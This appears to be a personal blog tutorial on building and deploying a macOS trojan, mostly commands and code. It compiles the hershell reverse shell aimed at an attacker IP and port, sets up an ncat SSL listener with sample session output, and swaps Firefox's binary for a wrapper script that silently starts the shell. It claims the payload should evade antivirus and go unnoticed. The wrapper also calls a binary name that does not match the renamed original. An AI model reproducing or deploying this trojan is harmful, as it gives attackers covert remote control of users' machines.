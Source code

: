 ```yaml
---
title: 'Building a MacOS Trojan'
layout: post
permalink: building-mac-trojan
tags: all, mac, cybersecurity
---
```


This article will outline a simple method I used for building and deploying malware on MacOS. I wanted to do this to prepare for reading Patrick Wardle's book [The Art of Mac Malware](https://taomm.org/).

## Setting up the Reverse Shell:

A simple reverse shell will serve as the base malicious payload that will be executed on the victim machine. I like this method because it is extremely simple and should evade antivirus.

I'm going to use [hershell](https://github.com/lesnuages/hershell), a very simple, cross-platform reverse shell client written in Go. I'll compile the client and server on an Arch Linux machine.

### Setup Hershell:

```bash
pacman -Sy --noconfirm go
```

Since I don't need the go environment to persist on my server, let's set the `GOPATH` variable to `/tmp/go` and grab hershell:

```bash
export GOPATH=/tmp/go
go get github.com/lesnuages/hershell
go get github.com/lesnuages/hershell/shell
```

### Compile Hershell for MacOS Victim:

Now prepare and compile hershell for the MacOS victim (change the `LHOST` and `LPORT` variables to your attacking machine/server):

```bash
cd /tmp/go/src/github.com/lesnuages/hershell/
make depends

make macos64 LHOST=192.168.1.50 LPORT=5000
```

The MacOS binary for the victim machine should now be available at `/tmp/go/src/github.com/lesnuages/hershell/hershell`:

```bash
❯ file /tmp/go/src/github.com/lesnuages/hershell/hershell
/tmp/go/src/github.com/lesnuages/hershell/hershell: Mach-O 64-bit x86_64 executable
```

### Setup the Malicious Listener on Server:

Generate the server certificate for hershell and install nmap so that we can use `ncat` as the listener on the attacking server:

```bash
cd /tmp/go/src/github.com/lesnuages/hershell/
make depends

pacman -Sy --noconfirm nmap
```

Then run the listener on the attacking machine:

```bash
ncat --ssl --ssl-cert /tmp/go/src/github.com/lesnuages/hershell/server.pem --ssl-key /tmp/go/src/github.com/lesnuages/hershell/server.key -lvp 5000
```

This is what it looks like when a session is established:

```bash
❯ ncat --ssl --ssl-cert /tmp/go/src/github.com/lesnuages/hershell/server.pem --ssl-key /tmp/go/src/github.com/lesnuages/hershell/server.key -lvp 5000
Ncat: Version 7.91 ( https://nmap.org/ncat )
Ncat: Listening on :::5000
Ncat: Listening on 0.0.0.0:5000
Ncat: Connection from 192.168.1.2.
Ncat: Connection from 192.168.1.2:52866.
[hershell]> whoami
heywoodlh
[hershell]> echo $HOSTNAME
unix-machine
```


## Trojanize an Application:

I'm going to trojanize Firefox since I use Firefox a ton. This method is super simplistic, but it gets the job done. And most likely, it wouldn't be detected unless a user was vigilant.

I'm going to perform the following commands on a Mac with Firefox already installed. You could replace Firefox with another application if you wanted to.

Copy Firefox.app:

```bash
cp -r /Applications/Firefox.app /tmp/Firefox-trojan.app
```

Rename the original Firefox binary file:

```bash
cd /tmp/Firefox-trojan.app/Contents/MacOS
cp firefox firefox.orig
```

Place the `hershell` binary that you created on the attacking server in `/tmp/Firefox-trojan.app/Contents/MacOS`.

Now create a shell script in place of the `firefox` binary that will run hershell and then will run the original `firefox` binary:

```bash
touch firefox
chmod +x firefox
```

Then add the following content to the new `firefox` file:

```bash
#!/usr/bin/env bash

full_path=$(dirname $(realpath $0))

/usr/bin/screen -dmS reverse-shell ${full_path}/hershell

${full_path}/firefox-bin
```

This method will use the `screen` command to run hershell in the background with a session name of `reverse-shell`. This method is not discrete at all, but I don't really care in this case.


## Profit:

When the Firefox-trojan.app is opened, it should attempt to create a reverse shell with the attacking server that is listening for a connection.

![alt text](https://raw.githubusercontent.com/heywoodlh/the-empire.systems/master/images/trojan-firefox.png "Trojanized Firefox")
